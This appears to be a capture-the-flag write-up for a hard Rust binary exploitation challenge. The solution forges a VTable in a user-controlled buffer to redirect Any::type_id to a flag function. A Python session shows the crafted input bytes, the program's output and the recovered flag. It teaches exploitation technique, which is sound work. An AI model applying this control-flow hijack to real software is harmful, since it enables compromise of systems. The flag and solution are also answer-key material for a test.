



# Blazingly Fast Present Packer

Basic challenge details:
- **Difficulty**: Hard
- **Points**: 350 (static)
- **Resources**: Click Here
- **Hints**: 2

**Challenge Description**: Santa’s elves have made a new machine to package presents for them. The grinch has gotten his hands on a prototype version and has already modified it to add his proprietary binary exploitation scanner, but he can’t find the flag. Maybe you can give it a shot?

**Hint 1**: It seems the elves have used some unsafe code… unsafely… you might want to check it out.

**Hint 2**: After typing away at GrinchGPT, it spat out a bunch of slop and the word "VTABLE," maybe that’s something useful?

**Author**: Lia (PyPylia)

## Writeup

Compile the code and do some initial testing (paying attention to the segfault and addresses)



Open up the provided source code, and notice that there’s an unsafe block that is not valid and allows you to construct an arbitrary dyn pointer.



Also notice that the gift card present (which returns a `Rc<Vec<u8>>`) tells you the address of its buffer (which is controlled by the user)



This code also uses the `Any::downcast_ref` function, which ultimately calls `Any::type_id`, which is stored inside a VTable due to it being a dyn object.

Therefore, the goal is to construct your own VTable with the `Any::type_id` function pointer replaced with the flag function pointer (provided to the user upon launch), and then construct a wide pointer pointing to that constructed VTable using the number present.

The following is an example of how to do that with Python:

```python
>>> from subprocess import Popen, PIPE
>>>
>>> p = Popen("chal.exe", stdin = PIPE, stdout = PIPE, stderr = PIPE)
>>> p.stdout.read1()
b"Welcome to Santa's prototype present packer!\n\nHere are the present types currently implemented:\nGift card = G\n128-bit unsigned integer = N\nDog = D\n\n--- GR1NCH CR@CK3R: FLAG ADDR = 0x00007ff7f5467800 ---\n\nWhat present do you wish to pack? "
>>>
>>> p.stdin.write(b"G\n")
2
>>> p.stdin.flush()
>>>
>>> # Convert flag addr to bytes in little endian
>>> 0x00007ff7f5467800.to_bytes(8, "little")
b'\x00xF\xf5\xf7\x7f\x00\x00'
>>>
>>> p.stdin.write(b"\x00xF\xf5\xf7\x7f\x00\x00" * 4 + b"\n") # VTable
33
>>> p.stdin.flush()
>>>
>>> p.stdout.read1()
b'What is your gift card ID? \n--- GR1NCH CR@CK3R: FOUND BUFFER: 0x0000020497e95ae0 ---\n\nWhat present do you wish to pack? '
>>>
>>> p.stdin.write(b"N\n")
2
>>>
>>> p.stdin.flush()
>>>
>>> # Pad out to overwrite vtable pointer not data pointer
>>> 0x0000020497e95ae0 << 64
40928746202704445643022835646464
>>>
>>> p.stdin.write(b"40928746202704445643022835646464\n")
33
>>>
>>> p.stdin.flush()
>>>
>>> p.stderr.read1()
b"\nthread 'main' panicked at src\\main.rs:74:5:\nYou got the flag! AUCTF{PR3M@TUR3_0PT1M1Z@T10N5}\nnote: run with `RUST_BACKTRACE=1` environment variable to display a backtrace\n"
```

Flag: `AUCTF{PR3M@TUR3_0PT1M1Z@T10N5}`
